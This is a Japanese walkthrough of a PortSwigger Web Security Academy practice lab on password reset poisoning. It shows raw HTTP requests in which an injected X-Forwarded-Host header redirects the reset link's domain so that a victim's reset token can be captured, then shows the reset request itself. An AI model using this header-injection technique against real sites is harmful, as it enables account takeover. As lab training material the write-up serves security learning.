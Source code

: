 crackstationを使い検索してみると、onceuponatimeであることがわかり、このパスワードを使用してアカウントを消せば良い。

## ****Password reset poisoning via middleware****

---

```
my credentials > wiener:peter

carlosは受信したメールに書かれているリンクを不注意にクリックする

carlosでアクセスすれば勝利
```

### analyze

URLを動的に生成する可能性のある部分を見ていきます。

Top > My Accountに移動し、Forgot password?を押下後password reset requestを送信します。

```
POST /forgot-password HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>

username=wiener
```

取得したリンクは`https://0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net/forgot-password?temp-forgot-password-token=if7jv7vusirbk3uw4vspj1plgt3m94xa`です

Host Headerを見て動的にURLを生成している可能性を考え、`X-Forwrded-Host` を利用してみます。

```
POST /forgot-password HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>
X-Forwarded-Host: example.com

username=wiener
```

こうすると、メールクライアントに`https://example.com/forgot-password?temp-forgot-password-token=1lzsytk4f2nuibo0mon4k9d2ouf5vn3b`　が飛んできます。

つまり、host headerを見て動的にURLを生成していることがわかります。

飛んできているURLを見るとクエリパラメータにtokenがあるのでHostを掌握しているドメインにして被害者にアクセスをさせればアクセスログでtokenを確認できそうです。

### password reset次のリクエストの確認

ここでは、リセットをする際のリクエストを除いておきます。

```
POST /forgot-password?temp-forgot-password-token=o5pbq9j1sanrmbvrbdi1y9t791zra9lw HTTP/2
Host: 0aba004f03a0e2c9800e49a100ee00de.web-security-academy.net
Cookie: session=4iu6TERhNWMekSdU8GbPOTsYiNRyHtic
<redacted>

temp-forgot-password-token=o5pbq9j1sanrmbvrbdi1y9t791zra9lw&new-password-1=password&new-password-2=password
```
